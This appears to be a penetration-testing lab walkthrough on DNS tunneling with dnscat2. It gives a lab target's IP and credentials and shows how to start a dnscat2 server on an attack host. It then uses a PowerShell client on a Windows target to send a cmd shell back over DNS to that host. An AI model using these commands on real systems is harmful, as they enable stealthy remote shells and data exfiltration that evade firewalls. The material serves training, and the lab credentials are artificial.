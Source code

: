 ## DNS Tunneling with Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted **Command-&-Control (C&C or C2)** channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host. 


### Target and credentials
> - 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV) 
> - Username: htb-student
> - Password: HTB_@cademy_stdnt!

1. Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer. 


### Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands: 

1. git clone https://github.com/iagox86/dnscat2[.]git
2. sudo gem install bundler
3. sudo bundle install 


We can then start the dnscat2 server by executing the dnscat2 file.


### Starting the dnscat2 server


![dnscat server](/dns-tunneling-w-dnscat/images/dns-server.png) 



	$ sudo dnscat2-server --dns host=10.10.14.101,port=53,domain=inlanefreight.local         

	New window created: 0
	New window created: crypto-debug
	Welcome to dnscat2! Some documentation may be out of date.

	auto_attach => false
	history_size (for new windows) => 1000
	Security policy changed: All connections must be encrypted
	New window created: dns1
	Starting Dnscat2 DNS server on 10.10.14.101:53
	[domains = inlanefreight.local]...

	Assuming you have an authoritative DNS server, you can run
	the client anywhere with the following (--secret is optional):

	  ./dnscat --secret=837c8fa09cf4db1e3704173a9e6d3529 inlanefreight.local

	To talk directly to the server without a domain name, run:

	  ./dnscat --dns server=x.x.x.x,port=53 --secret=837c8fa09cf4db1e3704173a9e6d3529

	Of course, you have to figure out <server> yourself! Clients
	will connect directly on UDP port 53.


After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target. 


### Cloning dnscat2-powershell to the Attack Host


![dnscat pwsh](/dns-tunneling-w-dnscat/images/importing-dnscat-pwsh.png) 


	$ git clone https://github.com/lukebaggett/dnscat2-powershell.git


Once the dnscat2.ps1 file is on the target we can import it and run associated cmd-lets.


### Importing dnscat2.ps1


![dnscat pwsh](/dns-tunneling-w-dnscat/images/pwsh-import.png) 


After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

	C:\ Start-Dnscat2 -DNSserver 10.10.14.101 -Domain inlanefreight.local -PreSharedSecret 837c8fa09cf4db1e3704173a9e6d3529 -Exec cmd


![Windows dnscat](/dns-tunneling-w-dnscat/images/windows-dnscat.png) 


We must use the pre-shared secret **(-PreSharedSecret)** generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server. 


### Confirming Session Establishment


![Linux dnscat](/dns-tunneling-w-dnscat/images/linux-dnscat.png) 


We can list the options we have with dnscat2 by entering **?** at the prompt. 


### Listing dnscat2 Options


![dnscat options](/dns-tunneling-w-dnscat/images/dnscat-options.png) 


We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell. 


### Interacting with the Established Session


	dnscat> window -i 1


![dnscat options](/dns-tunneling-w-dnscat/images/dnscat-session.png) 


